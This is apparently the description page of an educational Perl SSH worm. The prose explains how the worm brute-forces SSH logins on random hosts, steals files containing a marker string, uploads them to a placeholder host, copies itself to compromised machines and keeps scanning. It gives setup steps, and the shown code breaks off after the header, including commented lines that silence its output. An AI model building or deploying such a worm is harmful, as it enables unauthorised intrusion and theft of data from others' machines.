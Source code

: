 # Perl

This is a harmless worm meant for educational purposes only. It can only attack machines that run SSH servers and those too only under very special conditions that are described below. It's primary features are:

- It tries to break in with SSH login into a randomly selected set of hosts with a randomly selected set of usernames and with a randomly chosen set of passwords.
- If it can break into a host, it looks for the files that contain the string `abracadabra`. It downloads such files into the host where the worm resides.
- It uploads the files thus exfiltrated from an infected machine to a designated host in the internet. You'd need to supply the IP address and login credentials at the location marked `yyy.yyy.yyy.yyy` in the code for this feature to work. The exfiltrated files would be uploaded to the host at `yyy.yyy.yyy.yyy`. If you don’t supply this information, the worm will still work, but now the files exfiltrated from the infected machines will stay at the host where the worm resides. For an actual worm, the host selected for `yyy.yyy.yyy.yyy` would be a previously infected host.
- It installs a copy of itself on the remote host that it successfully breaks into. If a user on that machine executes the file thus installed (say by clicking on it), the worm activates itself on that host.
- Once the worm is launched in an infected host, it runs in an infinite loop, looking for vulnerable hosts in the internet. By vulnerable I mean the hosts for which it can successfully guess at least one username and the corresponding password.

> [!IMPORTANT]
> After the worm has landed in a remote host, the worm can be activated on that machine only if Perl is installed on that machine. Another condition that must hold at the remote machine is that it must have the Perl module `Net::OpenSSH` installed.

- The username and password construction strategies used in the worm are highly unlikely to result in actual usernames and actual passwords anywhere. (However, for demonstrating the worm code in an educational program, this part of the code can be replaced with a more potent algorithm.)
- Given all of the conditions I have listed above for this worm to propagate into the internet, we can be quite certain that it is not going to cause any harm. Nonetheless, the worm should prove useful as an educational exercise.

If you want to play with the worm, run it first in the `debug` mode. For the debug mode of execution, you would need to supply the following information to the worm:

1) Change to `1` the value of the variable `$debug`.
2) Provide an IP address and the login credentials for a host that you have access to and that contains one or more documents that include the string `abracadabra`. This information needs to go where you see `xxx.xxx.xxx.xxx` in the code.
3) Provide an IP address and the login credentials for a host that will serve as the destination for the files exfiltrated from the successfully infected hosts. The IP address and the login credentials go where you find the string `yyy.yyy.yyy.yyy` in the code.

After you have executed the worm code, you will notice that a copy of the worm has landed at the host at the IP address you used for `xxx.xxx.xxx.xxx` and you’ll see a new directory at the host you used for `yyy.yyy.yyy.yyy`. This directory will contain those files from the `xxx.xxx.xxx.xxx` host that contained the string `abracadabra`c.

```perl
#!/usr/bin/perl -w

use strict;
use Net::OpenSSH;

# You would want to uncomment the following two lines for the worm to
# work silently:
#open STDOUT, '>/dev/null';
#open STDERR, '>/dev/null';
$Net::OpenSSH::debug = 0;

use vars qw/@digrams @trigrams $opt $debug $NHOSTS $NUSERNAMES $NPASSWDS/;

# IMPORTANT: Before changing this setting, read the last
```